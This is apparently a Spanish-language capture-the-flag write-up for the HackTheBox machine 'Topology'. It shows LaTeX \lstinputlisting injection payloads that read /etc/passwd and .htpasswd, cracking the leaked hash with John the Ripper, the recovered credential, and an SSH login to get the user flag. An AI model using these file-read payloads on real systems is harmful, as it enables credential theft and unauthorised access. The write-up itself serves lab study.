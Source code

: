 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=19AC26FF&width=500&height=80&lines=Topology"></a>
</p>

**Online:** https://app.hackthebox.com/machines/546

**Paso 1:**

Primero vamos a editar el fichero etc/hosts y agregar el sgiuiente dominio:

```
10.10.11.217    latex.topology.htb
```

<p align="center">
<img src="./Img/dominio.png">
</p>

**Paso 2:**

Ahora vamos a acceder en **LaTeX Equation Generator** y nos pedira que ingresemos un código de látex y vamos a ingresar en orden los siguientes codigos:

<p align="center">
<img src="./Img/latex.png">
</p>

```latex
$\lstinputlisting{/etc/passwd}$

$\lstinputlisting{/var/www/dev/.htaccess}$

$\lstinputlisting{/var/www/dev/.htpasswd}$
```

nos dara un hash, creamos un archivo sin extencion y guardamos el hash **vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0**

<p align="center">
<img src="./Img/hash.png">
</p>

```
nano hash
```

**Paso 3:**

Ahora usaremos John the Ripper para decifrar el hash

```
sudo john hash --show
```

nos dara como usuario y contraseña **vdaisley:calculus20**

**Paso 4:**

Ahora vamosa conectarnos mediante ssh ingresando la contraseña que obtuvimos:

```
sudo ssh vdaisley@10.10.11.217
```

por ultimo leemos el archivo **user.txt** y nos dara como resultado la bandera.